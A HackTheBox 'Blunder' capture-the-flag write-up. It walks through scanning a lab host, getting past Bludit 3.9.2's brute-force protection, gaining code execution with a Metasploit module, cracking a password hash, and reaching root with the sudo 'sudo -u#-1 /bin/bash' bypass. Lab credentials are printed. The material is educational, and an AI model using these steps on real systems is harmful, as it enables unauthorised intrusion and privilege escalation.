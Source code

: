 ```yaml
---
title: Hackthebox - Blunder
date: 2020-09-09 00:00:00 +0530
categories: [hackthebox, linux]
tags: [bludit 3.9.2, cve-2019-17240, cve-2019-16113, sudo, cve-2019-14287]     # TAG names should always be lowercase
image: /assets/img/posts/blunder/blunder_banner.png
---
```



![](/assets/img/posts/blunder/blunder_banner.png)



<p align="right">   <a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"><img loading="lazy" alt="x00tex" src="https://www.hackthebox.eu/badge/image/391067"></a>
</p>

# Scanning

## Nmap

`ports=$(nmap -Pn -p- --min-rate=1000 -T4 10.10.10.191 | grep open | awk -F / '{print $1}' ORS=',') echo $ports && nmap -p$ports -sV -sC -v -T4 -oA scans/nmap.full 10.10.10.191`
```bash
PORT   STATE  SERVICE VERSION
21/tcp closed ftp
80/tcp open   http    Apache httpd 2.4.41 ((Ubuntu))
|_http-generator: Blunder
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Blunder | A blunder of interesting facts
```

## Gobuster

`gobuster dir -u http://10.10.10.191 -w /usr/share/seclists/Discovery/Web-Content/common.txt -x txt,php -t 50`
```
/admin (Status: 301)
/todo.txt (Status: 200)
```

### /admin

- in the admin page I found [bludit CMS](https://github.com/bludit/bludit) admin login panel, 
- Looking at the source code, the CMS version is identified as `3.9.2`

### /todo.txt

`-Inform fergus that the new blog needs images - PENDING`

potential username **fergus**

## Google

**search :** `bludit 3.9.2 vulnerability`

**2 CVEs Found**

**CVE-2019-17240**:*bl-kernel/security.class.php in Bludit 3.9.2 allows attackers to bypass a brute-force protection mechanism by using many different forged X-Forwarded-For or Client-IP HTTP headers.* 

**CVE-2019-16113 (1 Metasploit modules)**:*Bludit 3.9.2 allows remote code execution via bl-kernel/ajax/upload-images.php because PHP code can be entered with a .jpg file name, and then this PHP code can write other PHP code to a ../ pathname.* 

# User Exploiting

## CVE-2019-17240

**Discovered By**: Rastating
**References**: [rastating.github.io](https://rastating.github.io/bludit-brute-force-mitigation-bypass/) Blog post.

- requirements

  - **username:** fergus
  - **wordlist:** *create a wordlist from the website text*
  
        cewl http://10.10.10.191 -w wordlist


### POC Script

[bludit_3.9.2-Bruteforce.py](exploit/bludit_3.9.2-Bruteforce.py)
* [Wordlist](exploit/wordlist.txt) generated from webpage usubg cewl tool

*ippsec [video](https://www.youtube.com/watch?v=G5iw8c2vXuk&t=940s)*

#### creds

      fergus:RolandDeschain

## CVE-2019-16113

**Discoverer**: Christasa
**References**: [issue 1081](https://github.com/bludit/bludit/issues/1081)

- requirements

  - **username:** fergus
  - **password:** RolandDeschain


### Exploiting

#### using ExploitDB Script

  - Title: Bludit 3.9.2 - Directory Traversal
  - Author: James Green
  - EDB-ID: [48701](https://www.exploit-db.com/exploits/48701)

[Bludit_3.9.2-DirectoryTraversal.py](exploit/Bludit_3.9.2-DirectoryTraversal.py)

*ippsec [video](https://www.youtube.com/watch?v=G5iw8c2vXuk&t=2460s)*

#### MSF Module [Rapid7](https://www.rapid7.com/db/modules/exploit/linux/http/bludit_upload_images_exec)

> exploit/linux/http/bludit_upload_images_exec

	BLUDITPASS => RolandDeschain
	BLUDITUSER => fergus
	RHOSTS => 10.10.10.191
	LHOST => tun0

### low lavel user shell or meterpreter shell
	$ whoami;id
	www-data
	uid=33(www-data) gid=33(www-data) groups=33(www-data)

### spawn dumb shell, [ropnop.com blog](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys)

	$ which python
		/usr/bin/python
	# In reverse shell
	$ python -c 'import pty; pty.spawn("/bin/bash")'
	Ctrl-Z

	# In Kali
	$ stty raw -echo
	$ fg 	//Enter twice

	# In reverse shell
	$ reset
	$ export SHELL=bash
	$ export TERM=xterm-256color
	$ stty rows <num> columns <cols>

**for meterpreter shell upgrade :** [hackingarticles.in blog](https://www.hackingarticles.in/command-shell-to-meterpreter/)

### Local Enumeration

- Home directory has 2 users

	  hugo	//has user flag
	  shaun

- in `/var/www/bludit-3.10.0a/bl-content/databases` directory

	  user.php	//contains Hugo's password hash

		"nickname": "Hugo",
		"password": "faca404fd5c0a31cf1897b823c695c85cffeb98d"
		//hash type SHA1
		
- creds

	  hugo:Password120

# Root Prevesc

- **Enumeration**

	  $ su - hugo
	  su - hugo
	  Password: Password120

	  hugo@blunder:~$ sudo -l
	  sudo -l
	  Password: Password120

	  Matching Defaults entries for hugo on blunder:
	      env_reset, mail_badpass,
	      secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

	  User hugo may run the following commands on blunder:
	      (ALL, !root) /bin/bash
	  hugo@blunder:~$ sudo -V
	  sudo -V
	  Sudo version 1.8.25p1


### Google

**search :** `sudo ALL, !root privesc`

**1 CVE Found**

#### CVE-2019-14287

	# Exploit Title : sudo 1.8.27 - Security Bypass
	# Original Author: Joe Vennix
	# Exploit Author : Mohin Paramasivam (Shad0wQu35t)
	# Version : Sudo <1.2.28
	# Credit : Joe Vennix from Apple Information Security found and analyzed the bug

EDB-ID: [47502](https://www.exploit-db.com/exploits/47502)

- misconfigured sudo

	  $ sudo -l 
	  User hugo may run the following commands on blunder:
	      (ALL, !root) /bin/bash
    
**EXPLOIT :** 

	$ sudo -u#-1 /bin/bash